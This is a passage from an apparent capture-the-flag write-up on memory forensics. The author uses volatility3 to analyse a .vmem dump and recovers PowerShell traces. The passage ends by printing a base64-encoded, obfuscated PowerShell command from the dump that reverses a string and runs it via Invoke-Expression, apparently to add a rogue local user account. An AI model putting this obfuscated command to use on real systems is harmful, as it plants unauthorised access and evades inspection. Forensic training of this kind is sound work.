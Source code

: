 ### Memory

- After extracting the file, it revealed two additional files. It give a memory dump file. To analyze a `.vmem` file, we can use tools such as volatility or rekall.

![Logo](https://github.com/AmirulMohdNoor/AmirulMohdNoor.github.io/blob/main/images/ihack24/Screenshot%202024-07-28%20085738.png?raw=true)

- Analyze a memory file using volatility3 and `pstree` or `cmdline` plugins.

![Logo](https://github.com/AmirulMohdNoor/AmirulMohdNoor.github.io/blob/main/images/ihack24/Screenshot%202024-07-28%20091615.png?raw=true)

- It contains command and PowerShell execution traces. I discovered base64-encoded data within the output

![Logo](https://github.com/AmirulMohdNoor/AmirulMohdNoor.github.io/blob/main/images/ihack24/352783209-e500f8fe-b801-4e01-91d9-a6a0805137a9.png?raw=true)

```terminal
JABsAGEASQBJAE0AcQAgAD0AIAAnAGQAZAAnACAAKwAgACcAYQAvACcAIAArACAAJwAgAG4AaQAnACAAKwAgACcA
bQBkAEEAUwAnACAAKwAgACcAWQBTACAAbgAnACAAKwAgACcAaQAnACAAKwAgACcAbQBkACcAIAArACAAJwBhAH
MAeQBzACAAJwAgACsAIAAnAHIAJwAgACsAIAAnAGUAcwAnACAAKwAgACcAdQAgAHQAJwAgACsAIAAnAGUAbgAnADs
AIAAkAGsAUwBtAG0AQQBpAHcAIAA9ACAALQBqAG8AaQBuACAAKAAkAGwAYQBJAEkATQBxAC4AVABvAEMAaABhAHI
AQQByAHIAYQB5ACgAKQBbAC0AMQAuAC4ALQAoACQAbABhAEkASQBNAHEALgBMAGUAbgBnAHQAaAApAF0AKQA7A
CAASQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAJABrAFMAbQBtAEEAaQB3ACAAOwAgAFMAdABh
AHIAdAAtAFMAbABlAGUAcAAgAC0AUwBlAGMAbwBuAGQAcwAgADYAMAAwAA==
```
